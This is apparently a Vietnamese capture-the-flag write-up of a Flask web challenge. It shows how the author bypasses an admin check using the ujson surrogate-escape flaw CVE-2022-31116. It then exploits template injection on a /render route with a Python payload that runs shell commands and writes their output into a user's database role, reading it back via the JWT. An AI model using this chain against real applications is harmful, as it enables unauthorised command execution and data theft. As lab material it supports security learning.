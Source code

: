 ![image](https://github.com/user-attachments/assets/d9dcebbe-a5f6-4dc2-8d9a-e270919008d3)

Đọc source code thì thấy mục tiêu của bài là phải bypass vào admin để vào được `/render` để attack ssti
```python
@app.route('/render', methods=['POST'])
def dynamic_template():
    token = request.cookies.get('jwt_token')
    if token:
        try:
            decoded = jwt.decode(token, app.config['SECRET_KEY'], algorithms=['HS256'])
            role = decoded.get('role')

            if role != "admin":
                return jsonify(message="Admin only"), 403

            data = request.get_json()
            template = data.get("template")
            rendered_template = render_template_string(template)
            
            return jsonify(message="Done")

        except jwt.ExpiredSignatureError:
            return jsonify(message="Token has expired."), 401
        except jwt.InvalidTokenError:
            return jsonify(message="Invalid JWT."), 401
        except Exception as e:
            return jsonify(message=str(e)), 500
    else:
        return jsonify(message="Where is your token?"), 401
```

Lúc đầu mình định làm theo hướng bypass jwt nhưng sau một hồi tìm kiếm thì không thấy vuln gì. Chuyển sang tìm chỗ khác thì thấy `ujson.loads` có [CVE-2022-31116](https://security.snyk.io/vuln/SNYK-PYTHON-UJSON-2942122) . Về cơ bản của CVE này là khi chèn một số giá trị escape unicode vào thì `ujson.load` sẽ xóa giá trị đó đi.
```python
>>> ujson.loads(r'"\uD800"')
' '
>>> ujson.loads(r'"\uD800hello"')
'hello'

# An unpaired low surrogate character is preserved.
>>> ujson.loads(r'"\uDC00"')
'\udc00'
```

Qua đó mà có thể bypass check admin. Build trên local để test payload

![image](https://github.com/user-attachments/assets/86e6ed7a-d9f0-4227-bb08-4c53d9f8cb84)

Ở đây mình có setup debug thì thấy sau khi đi qua hàm `ujson.load` đã được chuyển thành `admin`

![image](https://github.com/user-attachments/assets/b0a23c89-4523-4b73-82c6-be71f52cd361)

Thực hiện đang nhập vào thì đã vào đc trang `/render`

Do route `/render` không gửi về nội dung sau khi render template nên mình đã thử các payload blinding nhưng trên server không có curl, wget thì bị xóa đi lúc build, dns thì bị chặn. Giờ chỉ còn cách là sử dụng timing check, việc viết script mất khá là nhiều thời gian. Sau khi xem lại source code thì mình tìm được một hướng mới. Do khi login sẽ được trả về token phần payload có chứa role, ta có thể tận dụng chèn output của shell sau khi chạy vào đây. Ý tưởng là viết code python để insert dữ liệu sau khi chạy command vào giá trị trường role của một user, sử dụng module `sqlite` và `os` có sẵn.

```python
import sqlite3
import os

def connect_to_db(db_file):
    try:
        conn = sqlite3.connect(db_file, check_same_thread=False)
        print "Connected to SQLite database successfully"
        return conn
    except sqlite3.Error as e:
        print "Error connecting to database:", e
        return None
output = str(os.popen("ls /app").read())
database_file = "database.db"
connection = connect_to_db(database_file)
cursor = connection.cursor()
query = "UPDATE users SET role = ? WHERE username = 'test'"
cursor.execute(query, (output,))
connection.commit()
connection.close()

```

Payload

![image](https://github.com/user-attachments/assets/2aae1a8e-58a6-4731-ae2f-8567c58faef6)

Mình có thực hiện mã hóa base64 để giúp đẩy code lên dễ hơn. Login vào để xem output

![image](https://github.com/user-attachments/assets/27631e22-8c48-455e-afad-cc934c3df6cf)

Oke vậy là đã thành công, giờ chỉ việc cat flag và submit thôi.


